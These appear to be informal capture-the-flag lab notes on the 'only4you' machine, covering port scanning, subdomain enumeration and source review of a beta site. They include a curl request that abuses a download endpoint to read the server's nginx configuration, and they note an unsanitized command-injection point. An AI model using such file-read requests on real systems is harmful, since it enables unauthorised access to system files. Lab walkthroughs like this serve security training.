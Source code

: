  nmap 10.10.11.210           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 01:12 EDT
Nmap scan report for 10.10.11.210
Host is up (0.50s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 81.91 seconds

THe website is designed by BootstrapMade

![](20230720012606.png)

while enumerating the subdomains we found one:
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u only4you.htb -t 50 --append-domain

http://beta.only4you.htb

in beta site there is a website

![](20230720012544.png)

got the source code added here:

./beta

convert file did not happen

from the source code there is multiple html request params

/source
/list
/download
/convert
/resize

we need to send a post 
request how to intercept our post reuest using curl on the machine

curl --proxy localhost:8080 -s -X POST http://beta.only4you.htb/download -d "image=/etc/nginx/sites-enabled/default"

```
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
        listen 80;
        server_name only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
        }
}

server {
        listen 80;
        server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
             
```

![](20230720031411.png)

intercepted traffic.

we analyse that the domain argument is not sanitized and the shell parameter is True.






